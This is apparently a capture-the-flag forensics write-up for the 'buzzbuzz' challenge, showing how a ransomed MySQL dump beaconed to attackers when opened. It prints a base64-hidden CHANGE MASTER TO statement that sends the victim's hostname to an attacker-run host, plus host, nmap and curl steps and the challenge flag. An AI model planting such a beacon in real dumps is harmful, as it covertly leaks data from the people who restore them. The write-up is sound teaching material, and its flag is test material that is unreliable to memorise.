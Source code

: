 # buzzbuzz

Last week, we detected some suspicious activity on the network from outside actors seemingly targeting our servers. We received a ransom email over the weekend, but IT didn't open it up until Tuesday afternoon and verified the stolen data as authentic. We thought the attackers were bluffing since we ignored the email for days, but lo and behold, our systems were indeed encrypted Wednesday afternoon!

How did the attackers know when we opened up the email?

# Solution
After extract, we can see PDF and dump. During the analysis we can find:
```sql
SET @b = 'U0VUIEBiYiA9IENPTkNBVCgiQ0hBTkdFIE1BU1RFUiBUTyBNQVNURVJfUEFTU1dPUkQ9J2J1c3liZWUxMjMnLCBNQVNURVJfUkVUUllfQ09VTlQ9MSwgTUFTVEVSX1BPUlQ9MzMwNiwgTUFTVEVSX0hPU1Q9J2QyNWQtNDRmZi1iM2FhLTFiZDU3MzMzNWNiZi5hZXlpZTRsZWkxYWlkaWU3LmluLXNjb3BlLmlyaXNjLnRmJywgTUFTVEVSX1VTRVI9J2RidXNlciIsIEBAbGNfdGltZV9uYW1lcywgQEBob3N0bmFtZSwgIic7Iik7';
SET @s2 = FROM_BASE64(@b);
```
then we can check it
```bash
❯ echo "U0VUIEBiYiA9IENPTkNBVCgiQ0hBTkdFIE1BU1RFUiBUTyBNQVNURVJfUEFTU1dPUkQ9J2J1c3liZWUxMjMnLCBNQVNURVJfUkVUUllfQ09VTlQ9MSwgTUFTVEVSX1BPUlQ9MzMwNiwgTUFTVEVSX0hPU1Q9J2QyNWQtNDRmZi1iM2FhLTFiZDU3MzMzNWNiZi5hZXlpZTRsZWkxYWlkaWU3LmluLXNjb3BlLmlyaXNjLnRmJywgTUFTVEVSX1VTRVI9J2RidXNlciIsIEBAbGNfdGltZV9uYW1lcywgQEBob3N0bmFtZSwgIic7Iik7" |base64 -d
SET @bb = CONCAT("CHANGE MASTER TO MASTER_PASSWORD='busybee123', MASTER_RETRY_COUNT=1, MASTER_PORT=3306, MASTER_HOST='d25d-44ff-b3aa-1bd573335cbf.aeyie4lei1aidie7.in-scope.irisc.tf', MASTER_USER='dbuser", @@lc_time_names, @@hostname, "';");
```

Thx to above code attackers know when dump was used. Then we can check DNS and open ports.
```bash
❯ host aeyie4lei1aidie7.in-scope.irisc.tf
aeyie4lei1aidie7.in-scope.irisc.tf has address 35.228.27.236
❯ nmap -P0 35.228.27.236
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-07 21:14 CET
Nmap scan report for 236.27.228.35.bc.googleusercontent.com (35.228.27.236)
Host is up (0.0026s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 66.21 seconds
```

Now we can open 8080 and we can see the page:
```html
<!DOCTYPE html>
<html>

<head>
	<title>Billy Bad&#39;s HoneyToken Tool</title>
	<link rel="stylesheet" type="text/css" href="/static/css/style.css">
	<link rel="shortcut icon" type="image/png" href="/static/png/favicon.png">
</head>

<body>

	<h1>Billy Bad's HoneyToken Tool</h1>
	<button onclick="make()">Create a HoneyToken.</button>

	<script src="https://cdn.jsdelivr.net/npm/jquery@3.7.1/dist/jquery.min.js"></script>
	<script>
		function make() {
			alert("This feature has been temporarily disabled.");
//			$.ajax(
//			{
//				type: "POST",
//				url: "/make",
//				success: function(data)
//				{
//					let trigger = data + ".aeYie4lei1aidie7.in-scope.irisc.tf";
//					let control = "http://aeYie4lei1aidie7.in-scope.irisc.tf/manage/" + data;
//					alert("Done. Requests to " + trigger + " can be tracked at " + control + ".");
//				}
//			})
		}
	</script>

</body>
```
based on the data which we have from the mysql dump we can get the flag:
```bash
❯ curl aeyie4lei1aidie7.in-scope.irisc.tf:8080/manage/d25d-44ff-b3aa-1bd573335cbf
<!DOCTYPE html>
<html>

<head>
        <title>HoneyToken Management</title>
        <link rel="stylesheet" type="text/css" href="/static/css/style.css">
        <link rel="shortcut icon" type="image/png" href="/static/png/favicon.png">
</head>

<body>

        <h1>HoneyToken Management</h1>
        <p><b>irisctf{h0neyt0kens_4rent_0nly_us3d_by_th3_wh1te_hat5}</b></p>
        <table id="hits">
                <tr>
                        <th>Timestamp</th>
                        <th>IP Address</th>
                </tr>

                        <tr>
                                <td>2024-01-07 20:11:42</td>
                                <td>172.**.**.**</td>
                        </tr>
...
```


# Flag
<code v-if="false">`irisctf{h0neyt0kens_4rent_0nly_us3d_by_th3_wh1te_hat5}`</code>
<code v-else>`irisctf{h0neyt0kens_4r************3d_by_th3_wh1te_hat5}`</code>

# Hashtags
#forensics
